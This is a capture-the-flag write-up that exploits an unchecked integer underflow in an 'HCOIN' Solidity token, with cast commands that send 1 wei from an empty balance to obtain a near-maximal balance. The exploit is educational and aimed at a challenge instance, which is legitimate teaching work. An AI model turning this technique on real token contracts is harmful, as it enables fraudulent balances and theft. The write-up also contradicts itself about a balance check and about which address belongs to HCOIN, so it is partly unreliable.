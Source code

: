 The function `transfer()` takes two arguments: address \_to and uint256 \_value. It first checks if \_to is a zero address. If it is, the function call will revert. Otherwise, it checks if msg.sender has enough balance to transfer the specified amount. If msg.sender has enough balance, the function decreases the msg.sender balance by \_value and increases the \_to balance by \_value.

The Solidity compiler version used for the HCOIN contract is 0.6.12, which means it is vulnerable to overflows and underflows. They also haven't used the SafeMath library to prevent overflows. So, the contract is vulnerable to overflows and underflows.

Let's check how this function will work if the balance of `msg.sender` is 0 and they are transferring 1 wei to another address.

1. `balanceOf[msg.sender]` will return 0 and `_value` is 1.
2. `0 - 1` will return `2**256 - 1` which is greater than 0.
3. `balanceOf[msg.sender] -= _value`. This will set `msg.sender` balance to `2**256 - 1 wei` which is equivalent to `115792089237316195423570985008687907853269984665640564039457.584007913129639935 ether`.
4. `balanceOf[_to] += _value`. This will set `_to` balance to 1 wei.

So from our account if we send 1 wei to any address then we will have a balance of 115792089237316195423570985008687907853269984665640564039457.584007913129639935 ether HCOIN tokens and our challenge will be solved.

```solidity
function setPlayer(address _player) public {
    require(_player == msg.sender, "Player must be the same with the sender");
    require(_player == tx.origin, "Player must be a valid Wallet/EOA");
    player = _player;
}
```

Once the transfer is completed we need call setPlayer() function in Setup.sol by passing our address as an argument.

We can complete this transaction in two ways. One way is by making direct transactions using `cast`, and the second way is by writing a script.

**Method-1**

In our instance, they are giving only the Setup contract address, but we need to interact with the HCOIN contract first. Since `coin()` in Setup is a public variable, we can get the `HCOIN` contract address by making a call to `coin()`.

```shell
$ cast call $SETUP_ADDR "coin()" --rpc-url $RPC_URL

```

`SETUP_ADDR` is the Setup contract address. Now we need to call the `transfer()` function.

```shell
$ cast send $HCOIN_ADDR "transfer(address,uint256)" 0xD896A0672D9E650B18524139293e4CDcA1E44c9e 1 --rpc-url $RPC_URL --interactive
```

`0x90bdc08cf595a862268cb0f12ec5956178e6fbf0` is the address of the HCOIN contract.

```shell
$ cast send $SETUP_ADDR "setPlayer(address)" $PLAYER_ADDR --rpc-url $RPC_URL --interactive
```
